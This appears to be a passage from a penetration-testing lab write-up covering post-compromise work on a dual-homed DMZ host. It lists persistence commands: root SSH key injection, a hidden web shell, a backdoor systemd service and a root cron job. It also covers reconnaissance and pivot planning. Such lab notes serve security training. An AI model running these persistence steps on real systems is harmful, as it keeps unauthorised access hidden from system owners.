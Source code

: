 ### 🔄 Alternative Persistence Methods
```bash
# SSH key deployment (if no existing keys):
ssh-keygen -t rsa -b 4096
cat ~/.ssh/id_rsa.pub >> /root/.ssh/authorized_keys

# Backdoor web shell placement:
cp webshell.php /var/www/html/.hidden/
chown www-data:www-data /var/www/html/.hidden/webshell.php

# Service manipulation:
systemctl enable custom-backdoor.service
systemctl start custom-backdoor.service

# Scheduled task persistence:
echo "* * * * * root /tmp/.backdoor" >> /etc/crontab
```

## 🌐 Network Position Assessment

### 📊 DMZ Host Analysis
```bash
# Network topology understanding:
External Network (10.129.x.x) → DMZ (dmz01) → Internal Network (172.16.8.0/23)

# Host role identification:
- Web services hosting (monitoring, dev applications)
- Network boundary device
- Dual-homed system (external + internal)
- Pivot point into corporate environment

# Service enumeration:
ps aux | grep -v "]"          # Running services
netstat -antup                # Network connections
systemctl list-units --type=service  # System services
```

### 🎯 Internal Network Preparation
```bash
# Network discovery preparation:
ip route                      # Routing table analysis
arp -a                       # ARP table enumeration  
cat /etc/resolv.conf         # DNS configuration
cat /etc/hosts               # Static host entries

# Pivot planning:
- SSH tunneling capabilities
- Port forwarding setup
- SOCKS proxy configuration
- Internal reconnaissance staging
```
